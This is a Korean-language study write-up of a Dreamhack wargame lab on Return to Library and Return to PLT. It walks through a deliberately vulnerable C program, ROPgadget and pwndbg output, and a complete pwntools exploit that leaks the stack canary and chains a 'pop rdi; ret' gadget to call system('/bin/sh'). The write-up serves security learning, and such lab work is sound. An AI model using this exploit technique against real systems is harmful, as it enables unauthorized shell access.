

# [Dreamhack]_Return_to_Library

---

## Return to Library

- NX로 인해 공격자가 버퍼에 주입한 셸 코드를 실행하기는 어려워졌지만, 스택 버퍼 오버플로우 취약점으로 반환 주소를 덮는 것은 여전히 가능했음
- 그래서 공격자들은 실행 권한이 남아있는 코드 영역으로 반환 주소를 덮는 공격 기법을 고안함
- 프로세스에 실행 권한이 있는 메모리 영역은 일반적으로 바이너리의 코드 영역과 바이너리가 참조하는 라이브러리의 코드 영역임
    - 이 중, 공격자들이 주목한 것은 다양한 함수가 구현된 라이브러리 였음
    - 몇몇 라이브러리에는 공격에 유용한 함수들이 구현되어 있음
        - ex) libc에는 `system` , `execve` 등 프로세스의 실행과 관련된 함수들이 구현되어 있음
- 공격자들은 libc의 함수들로 NX를 우회하고 셸을 획득하는 공격 기법을 개발하였고, 이를 **Return To Libc**라고 이름지음
- 다른 라이브러리도 공격에 활용될 수 있으므로 이 공격기법은 **Return To Library**라고도 불림
    - 유사한 공격 기법으로 **Return TO PLT가** 있음

## 전체 코드

```c
// Name: rtl.c
// Compile: gcc -o rtl rtl.c -fno-PIE -no-pie

#include <stdio.h>
#include <unistd.h>

const char* binsh = "/bin/sh";

int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Add system function to plt's entry
  system("echo 'system@plt");

  // Leak canary
  printf("[1] Leak Canary\n");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Overwrite return address
  printf("[2] Overwrite return address\n");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

## 분석

### 보호 기법

- `checksec` 명령어로 다운로드한 바이너리에 적용된 보호 기법을 파악
    - 카나리가 존재
    - NX가 적용되어 있음
    - 별도의 언급이 없다면 ASLR은 적용이 된 것임



## 코드 분석


### “/bin/sh”를 코드 섹션에 추가

- 8번 째 줄은 “/bin/sh”를 코드 섹션에 추가하기 위해 작성된 코드
- ASLR이 적용돼도 PIE가 적용되지 않으면 코드 세그먼트와 데이터 세그먼트의 주소는 고정 → “/bin/sh”의 주소는 고정되어 있음
    - PIE(포인터 독립 실행 가능, Position Independent Executable)는 실행 파일을 메모리의 어느 위치에서든 실행할 수 있도록 하는 기술입니다. PIE가 적용된 바이너리는 로딩 시점마다 코드와 데이터 세그먼트의 주소가 달라집니다. 이는 공격자가 코드와 데이터 세그먼트의 주소를 예측하기 어렵게 하여 보안을 강화합니다.

### system 함수를 PLT에 추가

- 17번째 줄은 PLT에 `system` 을 추가하기 위해 작성된 코드
- PLT와 GOT는 라이브러리 함수의 참조를 위해 사용하는 테이블
    - PLT에는 함수의 주소가 resolve되지 않았을 때, 함수의 주소를 구하고 실행하는 코드가 적혀있음
    - 따라서 PLT에 어떤 라이브러리 함수가 등록되어 있다면, 그 함수의 PLT 엔트리를 실행함으로서 함수를 실행할 수 있음
    - ALSR이 걸려 있어도 PIE가 적용되어 있지 않다면 PLT의 주소는 고정되므로, 무작위의 주소에 매핑되는 라이브러리의 베이스 주소를 몰라도 이 방법으로 라이브러리 함수를 실행할 수 있음 → 이 공격 기법을 **Return to PLT**라고 부름
- PLT를 이용하여 NX를 우회
    - ELF의 PLT에는 ELF가 실행하는 라이브러리 함수만 포함됨
    - 따라서 다음 코드를 작성하면 PLT에 `system` 함수를 추가할 수 있음

### 버퍼 오버플로우

- 19번째 줄부터 28번째 줄까지는 두 번의 오버플로우로 스택 카나리를 우회하고, 반환 주소를 덮을 수 있도록 작성된 코드

## 익스플로잇 설계

### 1. 카나리 우회

- 이전 문제와 동일하게, 첫 번째 입력에서 적절한 길이의 데이터를 입력하면 카나리를 구할 수 있음

### 2. rdi 값을 “/bin/sh”의 주소로 설정 및 셸 획득

- “/bin/sh”의 주소를 안다.
- `system` 함수의 PLT 주소를 안다. ⇒ `system` 함수를 호출할 수 있다.
- `system("/bin/sh")` 을 호출하면 셸을 획득 할 수 있음을 배움
    - x86-64의 호출 규약에 따르면 이는 `rdi=”bin/sh”` 주소인 상태에서 `system` 함수를 호출한 것과 같음
- “/bin/sh”의 주소를 알고, `system` 함수를 호출할 수 있으므로 **“/bin/sh”의 주소를 rdi의 값으로 설정할 수 있다면** `system("/bin/sh")` 를 실행할 수 있음
- 이를 위해선 리턴 가젯을 활용해야함

### 리턴 가젯

- 리턴 가젯(Return gadget)은 다음과 같이 `ret` 명령어로 끝나는 에섬블리 코드 조각을 의미함
- pwntools 설치 시 함께 설치되는 `ROPgadget` 명령어를 사용해서 다음과 같이 가젯을 구할 수 있음

```c
$ ROPgadget --binary rtl
Gadgets information
============================================================
...
0x0000000000400285 : ret
...

Unique gadgets found: 83
$
```

- 이제까지의 강의에서는 어떤 함수의 주소 또는 셸 코드의 주소로 반환 주소를 덮어서 한 번에 셸을 획득함
- 그러나 NX로 인해 셸 코드를 실행할 수 없는 상황에서, 단 한 번의 함수 실행으로 셸을 획득하는 것은 일반적으로 불가능
- 리턴 가젯은 반환 주소를 덮는 공격의 유연성을 높여서 익스플로잇에 필요한 조건을 만족할 수 있도록 도움
    - 예를 들어 이 예제에서는 rdi의 값을 “/bin/sh” 의 주소로 설정하고, `system` 함수를 호출해야 함
    - 리턴 가젯을 사용하여 반환 주소와 이후의 버퍼를 다음과 같이 덮으면, `pop rdi` 로 `rdi` 를 “/bin/sh”의 주소로 설정하고, 이어지는 `ret` 로 `system` 함수를 호출할 수 있음
    
    ```c
    addr of ("pop rdi; ret")   <= return address
    addr of string "/bin/sh"   <= ret + 0x8
    addr of "system" plt       <= ret + 0x10
    ```
    
- 대부분의 함수는 `ret` 로 종료되므로, 함수들도 리턴 가젯으로 사용할 수 있음

## 익스플로잇

### 카나리 우회

```python
#!/usr/bin/env python3
# Name: rtl.py
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)
```

### 리턴 가젯 찾기

- 일반적으로 `ROPgadget` 을 사용하여 리턴 가젯을 찾음
- `ROPgadget` 은 pypi를 이용하여 간단히 설치할 수 있음
  
    ```python
    $ python3 -m pip install ROPgadget --user
    ```
    
    ```python
    # 설치 확인
    $ ROPgadget -v
    Version:        ROPgadget v7.3
    Author:         Jonathan Salwan
    Author page:    https://twitter.com/JonathanSalwan
    Project page:   http://shell-storm.org/project/ROPgadget/
    ```
    
- 다음 명령어로 필요한 가젯을 찾을 수 있음
    - `--re` 옵션을 사용하면 정규표현식으로 가젯을 필터링할 수 있음
    
    ```python
    $ ROPgadget --binary ./rtl --re "pop rdi"
    Gadgets information
    ============================================================
    0x0000000000400853 : pop rdi ; ret
    ```
    

### 익스플로잇

- 다음과 같이 가젯을 구성하고, 실행하면 system(”/bin/sh”)를 실행할 수 있음
  
    ```python
    addr of ("pop rdi; ret")   <= return address
    addr of string "/bin/sh"   <= ret + 0x8
    addr of "system" plt       <= ret + 0x10
    ```
    
- “/bin/sh”의 주소는 pwndbg로 찾을 수 있음
  
    ```python
    pwndbg> search /bin/sh
    rtl             0x400874 0x68732f6e69622f /* '/bin/sh' */
    rtl             0x600874 0x68732f6e69622f /* '/bin/sh' */
    libc-2.27.so    0x7ff36c1aa0fa 0x68732f6e69622f /* '/bin/sh' */
    ```
    
- `system` 함수의 PLT 주소는 pwndbg 또는 pwntools 의 API로 찾을 수 있음
  
    ```python
    pwndbg> plt
    0x4005b0: puts@plt
    0x4005c0: __stack_chk_fail@plt
    0x4005d0: system@plt
    0x4005e0: printf@plt
    0x4005f0: read@plt
    0x400600: setvbuf@plt
    ```
    
    ```python
    pwndbg> info func @plt
    All functions matching regular expression "@plt":
    
    Non-debugging symbols:
    0x00000000004005b0  puts@plt
    0x00000000004005c0  __stack_chk_fail@plt
    0x00000000004005d0  system@plt
    0x00000000004005e0  printf@plt
    0x00000000004005f0  read@plt
    0x0000000000400600  setvbuf@plt
    ```
    
- 가젯으로 구성된 페이로드를 작성하고, 이 페이로드로 반환 주소를 덮으면 셸을 획득할 수 있음
- 여기서 한 가지 주의할 점
    - `system` 함수로 `rip` 가 이동할 때, 스택은 반드시 0x10단위로 정렬되어 있어야 한다는 것
    - 이는 `system` 함수 내부에 있는 `movaps` 명령어 때문
    - 이 명령어는 스택이 0x10단위로 정렬되어 있지 않으면 Segmentation Fault를 발생시킴
    - `system` 함수를 이용한 익스플로잇을 작성할 때, 익스플로잇이 제대로 작성된 것 같은데도 Segmentation Fault가 발생한다면, `system` 함수의 가젯을 8 바이트 뒤로 미뤄보는 것이 좋습니다.
    - 이를 위해서 아무 의미 없는 가젯**(no-op gadget)**을 `system` 함수 전에 추가할 수 있습니다.
    - 이 가젯이 무엇인지는 퀴즈
- 익스플로잇 코드
  
    ```python
    #!/usr/bin/env python3
    # Name: rtl.py
    from pwn import *
    
    p = process('./rtl')
    e = ELF('./rtl')
    
    def slog(name, addr): return success(': '.join([name, hex(addr)]))
    
    # [1] Leak canary
    buf = b'A' * 0x39
    p.sendafter(b'Buf: ', buf)
    p.recvuntil(buf)
    cnry = u64(b'\x00' + p.recvn(7))
    slog('canary', cnry)
    
    # [2] Exploit
    system_plt = e.plt['system']
    binsh = 0x400874
    pop_rdi = 0x0000000000400853
    ret = 0x0000000000400285
    
    payload = b'A'*0x38 + p64(cnry) + b'B'*0x8
    payload += p64(ret)  # align stack to prevent errors caused by movaps
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system_plt)
    
    pause()
    p.sendafter(b'Buf: ', payload)
    
    p.interactive()
    ```